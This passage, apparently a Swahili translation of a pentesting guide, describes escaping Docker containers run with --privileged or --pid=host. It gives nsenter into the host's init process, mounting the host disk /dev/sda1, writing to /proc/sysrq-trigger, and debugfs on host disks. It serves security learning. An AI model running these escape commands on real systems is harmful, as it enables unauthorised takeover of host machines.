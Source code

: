 {% content-ref url="../docker-privileged.md" %}
[docker-privileged.md](../docker-privileged.md)
{% endcontent-ref %}

### Privileged + hostPID

Kwa ruhusa hizi unaweza tu **kwenda kwenye anga ya mchakato unaoendesha kwenye mwenyeji kama root** kama init (pid:1) kwa kufanya: `nsenter --target 1 --mount --uts --ipc --net --pid -- bash`

Jaribu katika kontena kwa kutekeleza:
```bash
docker run --rm -it --pid=host --privileged ubuntu bash
```
### Wenye Haki

Kwa bendera ya wenye haki unaweza kujaribu **kupata diski ya mwenyeji** au jaribu **kutoroka kwa kutumia release\_agent au njia nyingine za kutoroka**.

Jaribu kufanya upitishaji wa kisasa katika chombo kikitekeleza:
```bash
docker run --rm -it --privileged ubuntu bash
```
#### Kufunga Diski - Poc1

Vyombo vya docker vilivyo configure vizuri havitaruhusu amri kama **fdisk -l**. Hata hivyo, kwenye amri ya docker iliyopangwa vibaya ambapo bendera `--privileged` au `--device=/dev/sda1` na herufi kubwa imetajwa, ni rahisi kupata mamlaka ya kuona diski ya mwenyeji.

![](https://bestestredteam.com/content/images/2019/08/image-16.png)

Kwa hivyo, kuchukua udhibiti wa kompyuta ya mwenyeji ni rahisi:
```bash
mkdir -p /mnt/hola
mount /dev/sda1 /mnt/hola
```
Na voilà! Sasa unaweza kupata ufikiaji wa mfumo wa faili wa mwenyeji kwa sababu umefungwa kwenye folda ya `/mnt/hola`.

#### Kufunga Diski - Poc2

Ndani ya kontena, mshambuliaji anaweza kujaribu kupata ufikiaji zaidi kwa mfumo wa uendeshaji wa mwenyeji kupitia kiasi cha mwenyeji kinachoweza kuandikwa kilichoundwa na kikundi. Hapa chini kuna vitu vya kawaida unavyoweza kuchunguza ndani ya kontena ili uone ikiwa unaweza kutumia vector huu wa mshambuliaji:
```bash
### Check if You Can Write to a File-system
echo 1 > /proc/sysrq-trigger

### Check root UUID
cat /proc/cmdline
BOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300

# Check Underlying Host Filesystem
findfs UUID=<UUID Value>
/dev/sda1

# Attempt to Mount the Host's Filesystem
mkdir /mnt-test
mount /dev/sda1 /mnt-test
mount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```